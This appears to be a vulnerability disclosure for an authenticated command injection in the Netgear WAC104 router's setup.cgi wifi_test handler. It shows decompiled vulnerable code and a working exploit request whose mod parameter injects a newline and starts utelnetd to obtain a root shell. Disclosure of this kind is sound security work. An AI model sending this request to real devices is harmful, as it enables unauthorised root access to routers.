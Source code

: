## Netgear WAC104 todo=wifi_test Authentication Command Injection Remote Command Execution Vulnerability

### 1.Vulnerability description

A authenticated remote command injection vulnerability exists in Netgear WAC104, which can be exploited by an authenticated remote attacker to cause Remote command execution (RCE) on an affected Netgear WAC104.<br>
The vulnerability exists in the latest firmware version ： WAC104-V1.0.4.21.img<br>
Firmware download address : https://www.downloads.netgear.com/files/GDC/WAC104/WAC104_firmware_V1.0.4.21.zip?_ga=2.248054530.446711973.1711967533-1975873394.1711967533<br>

### 2.Vulnerability details

The vulnerability is in the /usr/sbin/setup.cgi file.<br>
The vulnerability occurs in the function that handles the todo=wifi_test.<br>

```
int __fastcall sub_409C50(int a1)
{
  const char *v2; // $s2
  const char *v3; // $s1
  const char *v4; // $s0

  v2 = find_val_safe(a1, "channel");
  if ( !v2 )
    v2 = " ";
  v3 = find_val_safe(a1, "rate");
  if ( !v3 )
    v3 = " ";
  v4 = find_val_safe(a1, "mod");
  if ( !v4 )
    v4 = " ";
  COMMAND("/usr/sbin/rc fcc fcc:c%s:r%s:m%s", v2, v3, v4); //  Command Injection !!!
  html_parser("fcc.htm", a1, &key_fun_tab);
  printf("Command==fcc:c%s:r%s:m%s", v2, v3, v4);
  return 0;
}
```

The mod parameter is controlled by the attacker, and then a call to the COMMAND function can cause command injection.<br>

### 3.Vulnerability exploitation

The effect of the current exploitation is command injection.<br>
I got the root shell by executing the following command.<br>

```
data = b""
data += b"GET /setup.cgi?todo=wifi_test&channel=1&rate=1&mod=%0a/usr/sbin/utelnetd HTTP/1.1\r\n"
```